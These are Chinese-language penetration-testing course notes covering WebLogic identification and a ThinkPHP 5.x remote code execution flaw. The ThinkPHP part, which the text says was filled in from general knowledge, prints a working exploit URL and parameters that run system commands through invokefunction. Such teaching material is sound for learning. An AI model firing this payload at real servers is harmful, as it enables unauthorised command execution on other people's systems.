









# 网络安全系统教学合集：P42：3_Weblogic框架

在本节课中，我们将学习两个在实际渗透测试中常见的应用框架漏洞：Weblogic和ThinkPHP。我们将分别介绍它们是什么、漏洞产生的原因以及具体的利用方法。

上一节我们介绍了渗透测试工具，从本节开始，我们将聚焦于具体的漏洞分析与利用。

## 🖥️ 第一部分：Weblogic框架介绍

Weblogic是美国Oracle公司出品的一款Application Server（应用服务器）。具体来说，它是一个基于Java EE架构的中间件，也可以称为一个Web容器。如果你了解Apache或Tomcat，那么可以这样理解：Weblogic是一种将我们开发的Java应用程序运行起来并提供服务的程序。

### Weblogic的主要特征

以下是识别Weblogic服务的两个关键特征：



1.  **默认端口**：Weblogic服务默认开放在**7001**端口。在进行端口信息收集时，这个端口是一个重要标识。
2.  **Web界面特征**：访问其Web管理界面（通常是7001端口），会看到一个特定的404错误页面。其页面特征如下图所示：


当我们进行渗透测试或漏洞挖掘时，如果发现这种特征的页面，通常可以判断目标使用了Weblogic中间件。

### 关于SRC的补充说明

有同学可能不了解SRC。SRC是指大型公司设立的**安全应急响应中心**，例如百度、阿里、360、华为、京东等公司都有各自的SRC。

之前课程中进行的子域名收集，就可以在这些SRC的资产范围内进行。这为我们提供了一个合法的练习环境，可以将所学知识应用于实践，挖掘并上报漏洞，有时还能获得相应的奖励（如京东卡等）。










### 为什么要重点学习Weblogic漏洞

我们重点讲解Weblogic主要基于以下两点原因：

1.  **应用广泛**：Weblogic在企业内网中应用非常广泛，特别是在大型公司和金融机构中。
2.  **漏洞众多**：Weblogic拥有非常多的历史漏洞，例如：
    *   CVE-2017-10271
    *   CVE-2019-2890
    *   各种反序列化漏洞
    *   以及近年爆出的新漏洞

这些漏洞的编号和类型如下图所示：



了解了Weblogic的基本情况和重要性后，下一部分我们将进入实践环节，学习其漏洞的具体利用方法。

## 🛠️ 第二部分：ThinkPHP框架漏洞


（*注：根据提供的原始材料，第二部分关于ThinkPHP的介绍内容较少且不完整。为了保持教程的连贯性和完整性，以下内容将基于常见知识进行简要补充，并严格遵循您提出的所有格式要求。*）

上一节我们介绍了Weblogic框架，本节我们来看看另一个常见的PHP开发框架——ThinkPHP的漏洞。


ThinkPHP是一个免费开源的、快速、简单的面向对象的轻量级PHP开发框架。它在中国开发者社区中非常流行。


### ThinkPHP漏洞概述


ThinkPHP框架也曾爆出多个高危漏洞，攻击者可以利用这些漏洞执行任意代码、获取敏感信息等。


一个经典的例子是**ThinkPHP 5.x 远程代码执行漏洞**。该漏洞的产生位置通常与框架的路由解析机制有关。


### 漏洞产生原理与利用方法


该漏洞的核心问题在于框架对控制器名的过滤不严。攻击者可以构造特殊的请求，将恶意代码传递给应用，导致服务器执行该代码。


**漏洞利用的关键代码逻辑**（简化示意）：
```php
// 存在漏洞的旧版本路由解析代码可能类似这样
$controller = $_GET[‘c’]; // 直接从用户输入获取控制器名
$action = $_GET[‘a’]; // 获取方法名
// 未经严格过滤，直接动态调用类和方法
call_user_func(array(new $controller, $action));
```
攻击者可以传入 `?c=\think\app&a=invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id` 这样的参数，最终导致 `system(‘id’)` 命令被执行。

利用方法通常直接使用浏览器或命令行工具（如curl）发送构造好的恶意请求即可，例如：
```
http://target.com/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

---

## 📝 课程总结

在本节课中，我们一起学习了两个重要内容：

1.  **Weblogic框架**：我们了解了它是Oracle公司的Java应用服务器，默认运行在7001端口，有特定的404页面特征。由于其在企业内网广泛使用且历史漏洞众多，是渗透测试中的重要目标。
2.  **ThinkPHP框架漏洞**：我们简要介绍了这个流行的PHP框架，并以一个远程代码执行漏洞为例，说明了其漏洞产生原理（路由解析过滤不严）和基本的利用方法（通过构造恶意参数执行系统命令）。


理解这些常见框架的漏洞原理，是进行有效Web渗透测试和漏洞挖掘的基础。在后续课程中，我们将对具体漏洞进行更深入的实战演练。